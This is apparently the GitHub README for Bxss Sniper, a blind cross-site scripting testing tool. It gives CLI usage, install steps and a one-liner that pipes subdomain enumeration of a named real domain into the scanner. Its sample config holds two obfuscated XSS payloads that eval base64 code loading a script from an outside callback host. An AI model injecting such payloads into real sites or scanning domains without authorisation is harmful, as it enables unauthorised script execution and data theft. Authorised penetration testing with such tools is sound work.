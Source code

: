 # Bxss Sniper

Bxss Sniper is a web application penetration testing tool designed for Blind Cross-Site Scripting (BXSS) detection. This ethical hacking tool empowers security professionals and developers to identify and analyze potential BXSS vulnerabilities in web applications.

### Features

- **Blind XSS Detection:** Bxss Sniper specializes in detecting and testing for Blind Cross-Site Scripting vulnerabilities in web applications.

- **Flexible Testing Options:** Test a single URL or multiple URLs using a file containing a list of targets.

- **Silent Mode:** Enable silent mode to print only the output without displaying the banner and version information.

- **Output Customization:** Specify an output file to save the results for further analysis.

- **Proxy Support:** Switching proxies allows you to send requests through your configured proxy, such as Burp Suite.

- **Timeout Configuration:** Customize the timeout duration for requests, useful for both regular testing and integration with tools like Burp Suite.

- **Concurrency Control:** Adjust the concurrency level for multiple processes, enhancing the efficiency of the testing process.

- **Support Oneliners:** Bxss Sniper supports oneliners to improve your reconnaissance

### Oneliners:

Bxx Sniper supports integration with subdominator which can be easy to detect for blid cross site scripting.

```bash
subdominator -d glia.com -o results.txt --config | bxsniper --silent --concurrency 20 -o bxss.txt
```
![Screenshot from 2023-12-02 17-14-34](https://github.com/sanjai-AK47/Bxss_Sniper/assets/119435129/cbb8797f-7cb9-4e2d-aa6b-ba7d1db18748)



### Command Line Usage
```bash
usage: bxsniper [-h] [-uf URLS_FILE] [-u URL] [-s] [-o OUTPUT] [-px PROXY] [-to TIME_OUT] [-c CONCURRENCY]

[DESCRIPTION]: Bxss Sniper: A web application penetration testing tool for Blind XSS detection

options:
  -h, --help            show this help message and exit
  -uf URLS_FILE, --urls-file URLS_FILE
                        [INFO]: A file that contains a list of URLs to test for blind cross-site scripting
  -u URL, --url URL     [INFO]: A single URL to test for blind cross-site scripting
  -s, --silent          [INFO]: Silently print only output and not print the banner and version
  -o OUTPUT, --output OUTPUT
                        [INFO]: Filename to write the output
  -px PROXY, --proxy PROXY
                        [INFO]: Switching proxy will send requests to your configured proxy (e.g., Burp Suite)
  -to TIME_OUT, --time-out TIME_OUT
                        [INFO]: Switching timeout will send requests till your timeout and also for Burp Suite
  -c CONCURRENCY, --concurrency CONCURRENCY
                        [INFO]: Concurrency level for multiple processes
```


### Installation:

#### Method 1:

```bash
pip install bxss-sniper

bxsniper --help
```
[INFO]: After Installing the Bxss Sniper tool through pip copy the configuration yaml file from the github if you don't have in your machine.

#### Method 2:

```bash
git clone https://github.com/sanjai-AK47/Bxss_Sniper.git

cd Bxss_Sniper

pip install .

bxsniper --help
```

### Configuration:

To detect and do automation with Bxss Sniper users need to configure your `bxss-config.yaml` which you can store your Bxss payloads and Detects for Blind Cross Site Scripting
follow the instruction and syntax to config you `bxss-config.yaml`

```yaml
BlindXSS-Payloads:  #Max Payload 5-7

  - '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>'
  - "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>"
```

[Note]: If your payload have different quotes users are suggessted to give payloads without any yaml syntax errors
        to check your yaml syntax you can check [here](https://yamlchecker.com/) by pasting your payload in that it will notify the errors for you

### Contributors:

- **[D.Sanjai Kumar](https://www.linkedin.com/in/d-sanjai-kumar-109a7227b/):**  Author and Developer of Bxss Sniper
- **[Jerry](https://www.linkedin.com/in/md-hasan-03596a1b5/):**  Source Provider of Bxss Sniper
- **[AslamX3R](https://www.linkedin.com/in/aslamx3r/):**  Source Provider of Bxss Sniper

### Information:

Bxss Sniper is made for web application pentesters and Ethical hackers for Ethical purpose only . The Developer and the Source providers are not responsible for 
any unethical actions.

### Support:

Bxss Sniper is an open-source project that thrives on community collaboration. Contribute by:

- **Code:** Submit pull requests for bug fixes, features, or documentation enhancements.

- **Issues:** Report bugs, vulnerabilities, or suggest improvements.

- **Spread the Word:** Share Bxss Sniper with your network.

### How to Support:

- **Star the Repo:** Show your support on GitHub.

- **Share:** Spread the word on social media and in your communities.

- **Financially:** Help cover hosting and maintenance costs with a financial contribution.

Your contributions and support are vital to Bxss Sniper's success. Thank you for being part of our community! 🌟

